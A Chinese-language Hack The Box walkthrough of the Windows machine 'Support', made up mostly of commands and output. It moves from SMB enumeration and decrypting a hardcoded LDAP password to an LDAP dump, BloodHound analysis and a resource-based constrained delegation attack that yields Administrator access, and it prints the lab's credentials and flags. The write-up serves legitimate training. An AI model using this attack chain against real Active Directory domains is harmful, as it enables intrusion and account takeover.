



###### tags: `Hack the box` `HTB` `Easy` `Windows`

# Support
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.230.181 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.230.181:3268
Open 10.129.230.181:3269
Open 10.129.230.181:53
Open 10.129.230.181:139
Open 10.129.230.181:135
Open 10.129.230.181:88
Open 10.129.230.181:464
Open 10.129.230.181:445
Open 10.129.230.181:389
Open 10.129.230.181:636
Open 10.129.230.181:593
Open 10.129.230.181:5985
Open 10.129.230.181:9389
Open 10.129.230.181:49664
Open 10.129.230.181:49667
Open 10.129.230.181:49678
Open 10.129.230.181:49682
Open 10.129.230.181:49711

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-05-31 03:44:13Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49678/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49682/tcp open  msrpc         syn-ack Microsoft Windows RPC
49711/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

smb下載`UserInfo.exe.zip`
```
┌──(kali㉿kali)-[~/htb]
└─$ smbclient -N -L 10.129.230.181

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
support-tools   Disk      support staff tools
SYSVOL          Disk      Logon server share

┌──(kali㉿kali)-[~/htb]
└─$ smbclient -N //10.129.230.181/support-tools

smb: \> dir
  .                                   D        0  Wed Jul 20 13:01:06 2022
  ..                                  D        0  Sat May 28 07:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 07:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 07:19:55 2022
  putty.exe                           A  1273576  Sat May 28 07:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 07:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 13:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 07:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 07:19:43 2022

                4026367 blocks of size 4096. 969006 blocks available
smb: \> get UserInfo.exe.zip 
```

解壓縮後查看file，為dotnet，利用[AvaloniaILSpy](https://github.com/icsharpcode/AvaloniaILSpy/releases)，下載releas頁面的`Linux.x64.Release.zip`，解壓縮後執行他
```
┌──(kali㉿kali)-[~/htb/UserInfo.exe]
└─$ file UserInfo.exe           
UserInfo.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections

┌──(kali㉿kali)-[~/artifacts/linux-x64]
└─$ sudo ./ILSpy
```



查看`UserInfo` -> `UserInfo.Services` -> `Protected` 可看到`enc_password`的加密
```
## decrypt.py
import base64
from itertools import cycle

enc_password = base64.b64decode("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E")
key = b"armando"
key2 = 223
res = ''
for e,k in zip(enc_password, cycle(key)):
	res += chr(e ^ k ^ key2)
	
print(res)

┌──(kali㉿kali)-[~/htb]
└─$ python3 decrypt.py 

nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

利用`ldapdomaindump`dump出來
```
┌──(kali㉿kali)-[~/htb/windapsearch]
└─$ ldapdomaindump -u 'support\ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 10.129.230.181 -o dump
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

`domain_users.html`



針對`support`這個user查看`domain_user.json`
```
# 搜尋CN=support

"attributes": {
        "accountExpires": [
            "9999-12-31 23:59:59.999999+00:00"
        ],
        "badPasswordTime": [
            "1601-01-01 00:00:00+00:00"
        ],
        "badPwdCount": [
            0
        ],
        "c": [
            "US"
        ],
        "cn": [
            "support"
        ],
        "codePage": [
            0
        ],
        "company": [
            "support"
        ],
        "countryCode": [
            0
        ],
        "dSCorePropagationData": [
            "2022-05-28 11:12:01+00:00",
            "1601-01-01 00:00:00+00:00"
        ],
        "distinguishedName": [
            "CN=support,CN=Users,DC=support,DC=htb"
        ],
        "info": [
            "Ironside47pleasure40Watchful"
        ],
```

可在`Info`欄位取得密碼`Ironside47pleasure40Watchful`，winrm登入，在`C:\Users\support\Desktop`得user.txt
```
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.129.230.181 -u support -p "Ironside47pleasure40Watchful"

*Evil-WinRM* PS C:\Users\support\Desktop> type user.txt
8e31c4d1e6683ae88bd214ac31dd7aef
```

用`sharphounds`
```
*Evil-WinRM* PS C:\Users\support\Desktop> upload /home/kali/htb/Sharphound.ps1

*Evil-WinRM* PS C:\Users\support\Desktop> Import-Module .\Sharphound.ps1
*Evil-WinRM* PS C:\Users\support\Desktop> Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\support\Desktop -OutputPrefix ""
*Evil-WinRM* PS C:\Users\support\Desktop> download 20240531004205_BloodHound.zip
```

啟動`bloodHound`
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo neo4j start 

┌──(kali㉿kali)-[~/htb]
└─$ bloodhound
```

拉zip檔進去之後，可以查看`Node Info`



點`OUTBOUND OBJECT CONTROL` -> `Group Delegated Object Control`


發現`support`這個user是`Shared support account`這個群組的，然後又對`DC.SUPPORT.HTB`是`GenericAll`的權限，可以用[rbcd-attack](https://github.com/tothi/rbcd-attack?source=post_page-----50c25c5a23c5--------------------------------)

先add一台computer，查看有加入
```
┌──(kali㉿kali)-[~/htb]
└─$ impacket-addcomputer support.htb/support -dc-ip 10.129.230.181 -computer-pass "Ironside47pleasure40Watchful" -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
[*] Successfully added machine account ATTACK$ with password AttackerPC1!.

*Evil-WinRM* PS C:\Users\support\Desktop> get-adcomputer attack                 
DistinguishedName : CN=ATTACK,CN=Computers,DC=support,DC=htb               
DNSHostName       :                                                         
Enabled           : True
Name              : ATTACK                                                 
ObjectClass       : computer                                               
ObjectGUID        : 47e915ee-6458-42ca-bedd-f7ef53677b74                   
SamAccountName    : ATTACK$                                                 
SID               : S-1-5-21-1677581083-3380853377-188903654-6101           
UserPrincipalName :
```

用`rbcd.py`
```
┌──(kali㉿kali)-[~/htb/rbcd-attack]
└─$ python3 rbcd.py -dc-ip 10.129.230.181 -t SUPPORT -f 'ATTACK' support.htb\\support:Ironside47pleasure40Watchful

┌──(kali㉿kali)-[~/htb/rbcd-attack]
└─$ python3 rbcd.py -dc-ip 10.129.230.181 -t DC  -f 'ATTACK' support.htb\\support:Ironside47pleasure40Watchful

┌──(kali㉿kali)-[~/htb/rbcd-attack]
└─$ impacket-getST -spn cifs/dc.support.htb support/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip 10.129.230.181 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache

┌──(kali㉿kali)-[~/htb/rbcd-attack]
└─$ export KRB5CCNAME=./Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```

可以登入了，以Administrator身分登入之後，可在`C:\Users\Administrator\Desktop`得root.txt
```
┌──(kali㉿kali)-[~/htb/rbcd-attack]
└─$ impacket-psexec -k -no-pass dc.support.htb -dc-ip 10.129.230.181

C:\Users\Administrator\Desktop> type root.txt
ee96b3d1b9e03612383fa3858abc171e
```
